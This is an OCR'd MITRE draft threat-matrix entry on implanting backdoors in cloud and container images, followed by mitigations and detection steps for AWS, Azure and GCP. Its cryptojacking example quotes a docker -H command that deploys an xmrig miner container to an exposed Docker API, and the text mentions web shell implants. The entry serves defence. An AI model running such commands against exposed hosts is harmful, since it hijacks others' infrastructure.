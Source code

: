  
(© 2022 The MITRE Corporation All Rights Reserved. Draft Content 
Submission for Consideration by the CAVEAT Working Group) 
 Implant Container Image (version 1.0) 
 
Cloud Service Label: IaaS 
 
Description 
Amazon Web Service (AWS) Amazon Machine Images (AMI), and Azure Images as 
well as popular container runtimes such as Docker can be implanted or backdoored to 
include malicious code. Depending on how the infrastructure is provisioned, this could 
provide ini tial or persistent access. 
 
For example, a publicly accessible tool has been developed to facilitate planting 
backdoors in AWS Docker container images. If an attacker has access to a 
compromised AWS instance, and permissions to list the available container images, 
they may implant a backdoor such as a web shell. Adversaries may also implant Docker 
images that may be inadvertently used in cloud deployments especially with cluster 
management services like Kubernetes. Kubernetes will grab new container images 
from a configured repositor y and run them dynamically. If a malicious image makes it 
into the container registry, an adversary can be reasonably sure it will eventually be run 
by a newly launched Kubernetes node. 
 
Examples 
Name Description 
Cryptojacking Campaign On November 24, 2019, a cryptojacking campaign exploited Docker API 
endpoints to mine Monero. This was done by deploying an Alpine Linux OS 
container to the exposed Docker API that runs a malicious script from the 
attackers’ servers and installs a Monero m iner. Launching a mining container 
is as easy as docker -H 192.168.1.7:2376 run --restart unless -stopped --
read-only -m 50M -c 512 bitnn/alpine -xmrig -o POOL01 -o POOL02 -u 
WALLET -p PASSWORD -k 
GCP Custom Cloud Shell Image After obtaining a shell on the host of a container, a malicious Docker image 
can be built to steal contents from a user’s home folder. 
 
Mitigations 
(© 2022 The MITRE Corporation All Rights Reserved. Draft Content 
Submission for Consideration by the CAVEAT Working Group) 
 Mitigation Description 
Audit Frequently check permissions on cloud storage to ensure proper permissions 
are set to deny open or unprivileged access to resources. Consider using 
automated resource checkers such as CloudSploit or Divvycloud. 
 AWS To perform an audit via AWS it is suggested to review information such as 
account details (credentials, users, groups, roles, etc), mobile applications, 
EC2 configurations, policies, and account activity. How to audit these 
different factors can be found i n detail at: 
https://docs.aws.amazon.com/general/latest/gr/aws -security -audit -
guide.html. 
 Azure To perform an audit via Azure an administrator can review the audit logs that 
are recorded under Azure’s monitoring for active directory. The audit logs 
allow for filtering, as well as looking at users, groups, and enterprise specific 
information. Full det ails on how to access this information can be found at: 
https://docs.microsoft.com/en -us/azure/active -directory/reports -
monitoring/concept -audit -logs. 
 GCP To perform an audit via GCP the logs can be reviewed. GCP breaks this 
down into three categories; admin activity, data access, and system events. 
The audit logs can be viewed a few different ways - the console, API, or 
gcloud. Full details on how to view th ese logs, how to export, and for how to 
configure the retention period can be found here: 
https://cloud.google.com/logging/docs/audit. 
Code Signing Several cloud service providers support content trust models that require 
container images be signed by trusted sources. 
Least Privilege All access given to users in the cloud environment should be assigned by the 
necessary privileges needed for team members to complete their job 
responsibilities. Ensure that temporary access tokens are issued rather than 
permanent credentials, especially when access is being granted to entities 
outside of the internal security boundary . 
 AWS To implement least privilege in an AWS environment IAM policies will be 
used. This gives the ability to allow users to perform list, read, write, 
permissions management, or tagging actions. AWS suggests utilizing last 
accessed information and A WS CloudTrail event history to get a better 
understanding of privileges that might be needed or reduced based on a 
specific role. Full details can be found at 
https://docs.aws.amazon.com/IAM/latest/UserGuide/best -
practices.html#grant -least -privilege. 
 Azure To implement least privilege in an Azure environment Azure Active Directory 
roles will be used. Azure outlines different tasks and the least privileged role 
that are suggested to be associated with the task. Those details can be 
found at: https://docs.microsoft.com/en -us/azure/active -directory/users -
groups -roles/roles -delegate -by-task. To learn how to assign specific roles 
it can be done via the Azure Active Directory Portal. Instructions on how to 
assign roles can be found here: https://docs.microsoft.com/ en-
us/azure/active -directory/users -groups -roles/directory -manage -roles -
portal. 
 GCP To implement least privilege in GCP it is recommended to use predefined 
roles (which allow for granular access permissions) instead of primitive roles 
(roles/owner, roles/editor, and roles/viewer). Full details on the difference 
between types of roles can be found here: 
https://cloud.google.com/iam/docs/understanding -roles. To assign these 
roles IAM service accounts are used and complete details can be found at: 
https://cloud.google.com/iam/docs/using -iam-securely#least\_privilege. 
Privileged Account Management Do not allow subscription -level administrator accounts to be used for day -to-
day operations that may expose them to potential adversaries on 
unprivileged systems. 
 AWS To manage the access that privileged accounts have on the AWS cloud 
system to only allow administrators to perform administrative tasks on such 
accounts can be accomplished utilizing limited IAM administrator accounts. 
To configure this the administrator w ould have two accounts; one would have 
(© 2022 The MITRE Corporation All Rights Reserved. Draft Content 
Submission for Consideration by the CAVEAT Working Group) 
 administrative rights and no basic access while the other account has basic 
access with no administrative rights. To limit the administrative account the 
IAM limited administrator would be used. This is done by creating a policy 
that gives a user admin rig hts, but disallows the other actions using the AWS 
command line interface. This is outlined at: 
https://aws.amazon.com/blogs/security/how -to-create -a-limited -iam-
administrator -by-using -managed -policies/ . 
 Azure To manage the access that privilege accounts have on the Azure cloud 
system to only allow administrators to perform administrative tasks on such 
accounts can be accomplished utilizing limited IAM administrator accounts. 
To configure this the administrator would have two accounts; one would have 
administrative rights and no basic access while the other account has basic 
access with no administrative rights. To limit the administrative account the 
specific administrative needs can be picked from a number of o ptions 
available (Azure DevOps Administrator, Billing Administrator, Cloud 
Application Administrator, etc.) These different options can be edited to fit the 
needs and limit the basic access. This is outlined at: 
https://docs.microsoft.com/en -us/azure/active -directory/users -groups -
roles/directory -assign -admin -roles . 
 GCP To manage the access that privilege accounts have on the Azure cloud 
system to only allow administrators to perform administrative tasks on such 
accounts can be accomplished utilizing limited IAM administrator accounts. 
To configure this the administrator would have two accounts; one would have 
administrative rights and no basic access while the other account has basic 
access with no administrative rights. To limit the administrative account pre -
defined administrator accounts can be used (mobile admin, Goog le voice 
admin, help desk admin, etc.). These accounts can be used with their pre -
defined settings, or modified depending on specific use cases. These can 
limit access to basic functionality needed. This is outlined at: 
https://support.google.com/a/answer/2405986?hl=en. 
Use Private Container Repos Retrieving a container from Docker Hub does not mean that the container 
image is free from vulnerabilities or malware! Pointing cluster management 
software to fetch containers from repos outside an organization’s direct 
control tacitly permits access to ev eryone who can add content to that repo. 
 
Detection 
If an automated scanning tool does not flag something suspicious in an image, it will be 
difficult to detect malicious behavior inserted into one of the many processes running 
inside the container. However, it should be possible to detect any network conn ections 
a container is making unexpectantly which could indicate a backdoor is being initiated. 
 
Detection Description 
Create Log Metric Filters and Alarms for AWS To create a metric filter and alarm: 
1. Create a metric filter that checks for IAM policy 
changes and the  
2. Create an SNS topic 
3. Create an SNS subscription to the above topic 
4. Create an alarm associated with the filter and SNS 
topic created in steps 1 and 2 respectively 
(© 2022 The MITRE Corporation All Rights Reserved. Draft Content 
Submission for Consideration by the CAVEAT Working Group) 
 Monitor Activity in AWS Account Various services in AWS offer logging features that allow for 
detection capabilities. These include CloudFront, CloudTrail, 
CloudWatch, Config, and S3. 
Monitor for Suspicious Activity in Azure Azure AD can generate anomaly reports than can be run on 
a daily basis. Azure AD Identity Protection show current risks 
in its dashboard and provides daily email summary 
notifications. Policies can also be configured to alert to 
specific issues. 
Create Log Metric Filters and Alarms for CloudTrail To create a metric filter and alarm: 
1. Create a filter that checks for CloudTrail changes 
and the specific  
2. Create an SNS topic that the alarm will notify 
3. Create an SNS subscription to the above topic 
4. Create an alarm associated with the filter from 
step 1 and SNS topic in step 2 
Create Activity Log Alerts in Azure To create log activity alerts for deletion in the Azure 
Console: 
1. Navigate to Monitor’ / ‘Alerts 
2. Select Manage alert rules 
3. Click on the Alert Name where Condition contains 
operationName equals 
Microsoft.Network/networkSecurityGroups/securit
yRules/delete 
4. Hover a mouse over Condition to ensure it is set to 
Whenever the Administrative Activity Log “Delete 
Security Rule 
(networkSecurityGroups/securityRules)” has “any” 
level with “any” status and event is initiated by 
“any” 
Create, View, and Manage Activity Alerts in Azure Monitor To create a log alert in the Azure portal: 
1. Select Monitor -> Alerts 
2. Select New alert rule of the Alerts window 
3. Provide information in Define alert condition 
4. Provide details in Define alert details 
5. Specify action group for new alert rule under 
Action group , or create a new action group with + 
New group 
6. Select Yes for the Enable rule upon creation 
option 
7. Select Create alert rule 
 
To view and manage alerts: 
1. Select Monitor -> Alerts -> Manage alert rules 
2. Select the rule you want to modify and double -
click to edit the rule options 
3. Click Save 
Azure Resource Manager Templates Azure Resource Manager templates in the format of JSON 
files that can be used to configure metric alerts in Azure 
Monitor. These templates can be used for simple static and 
dynamic threshold metric alerts, availability tests, and 
monitoring multiple resour ces. 
Enable CloudTrail across all regions in AWS To enable CloudTrail across all regions: 
1. Sign into the AWS Management Console and open 
the CloudTrail console 
(© 2022 The MITRE Corporation All Rights Reserved. Draft Content 
Submission for Consideration by the CAVEAT Working Group) 
 2. Click on Trails 
3. Set necessary Trails to All option in the I column 
4. Click on a trail via the link Name column 
5. Set Logging to ON 
6. Set Apply trail to all regions to Yes 
Configure log profile to capture activity logs for all regions in 
Azure To set up activity logs for all regions: 
1. Navigate to Azure console 
2. Go to Activity log 
3. Select Export 
4. Select Subscription 
5. Check Select all in Regions 
6. Select Save 
 
 
References 
1. Rhino Labs. (2019, August). Exploiting AWS ECR and ECS with the Cloud 
Container Attack Tool (CCAT). Retrieved September 12, 2019. 
2. Rhino Labs. (2019, September). Cloud Container Attack Tool (CCAT). Retrieved 
September 12, 2019. 
3. Doman, C. & Hegel, T.. (2019, March 14). Making it Rain - Cryptocurrency 
Mining Attacks in the Cloud. Retrieved October 3, 2019. 
4. Microsoft. (2019, September 5). Content trust in Azure Container Registry. 
Retrieved October 16, 2019. 
5. Docker. (2019, October 10). Content trust in Docker. Retrieved October 16, 
2019. 
6. CoinTelegraph. (2019, November). Helen Partz - Hackers Mass -Scanning Web 
for Docker Platforms to Mine Cryptocurrencies. Retrieved July 14, 2020. 
7. https://medium.com/@riccardo.ancarani94/attacking -docker -exposed -api-
3e01ffc3c124 . Accessed July 14, 2020. 
8. https://offensi.com/2019/12/16/4 -google -cloud -shell-bugs -explained -bug-2/. 
Accessed July 29, 2020. 
 